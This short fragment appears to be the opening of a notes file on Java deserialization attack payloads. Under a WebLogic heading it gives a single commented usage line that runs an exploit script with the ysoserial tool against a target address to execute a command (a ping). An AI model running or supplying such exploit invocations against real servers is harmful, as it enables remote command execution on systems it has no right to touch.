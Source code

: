 # Java deserialization attack payloads
#WEBLOGIC
#python weblogic.py 1.2.3.4 9001 ./ysoserial-0.0.2-all.jar 'ping -n 3 1.2.3.5'

